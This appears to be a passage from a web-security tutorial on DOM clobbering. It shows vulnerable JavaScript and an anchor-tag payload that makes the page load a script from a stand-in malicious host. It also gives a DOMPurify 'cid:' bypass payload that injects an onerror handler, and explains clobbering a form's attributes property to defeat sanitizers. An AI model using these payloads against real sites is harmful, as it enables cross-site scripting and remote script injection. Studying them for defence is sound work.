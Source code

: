 ```
requestFileSystem()
RegExp()
```

## **DOM Clobbering**

A common pattern used by JavaScript developers is:

`var someObject = window.someObject || {};`

If you can control some of the HTML on the page, you can clobber the `someObject` reference with a DOM node, such as an anchor. Consider the following code:

```python
<script>
 window.onload = function(){
    let someObject = window.someObject || {};
    let script = document.createElement('script');
    script.src = someObject.url;
    document.body.appendChild(script);
 };
</script>
```

To exploit this vulnerable code, you could inject the following HTML to clobber the `someObject` reference with an anchor element:

`<a id=someObject><a id=someObject name=url href=//malicious-website.com/malicious.js>`

Injecting that data `window.someObject.url `is going to be `href=//malicious-website.com/malicious.js`

**Trick**:  `DOMPurify` allows you to use the **`cid:`** protocol, which **does not URL-encode double-quotes**. This means you can **inject an encoded double-quote that will be decoded at runtime**. Therefore, injecting something like `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">` will make the HTML encoded `&quot;` to be** decoded on runtime** and **escape **from the attribute value to **create **the **`onerror`** event.

Another common technique consists on using **`form`** element. Some client-side libraries will go through the attributes of the created form element to sanitised it. But, if you **create an `input`**inside the form with` id=attributes` , you will **clobber the attributes property** and the sanitizer **won't **be able to go through the **real attributes**.
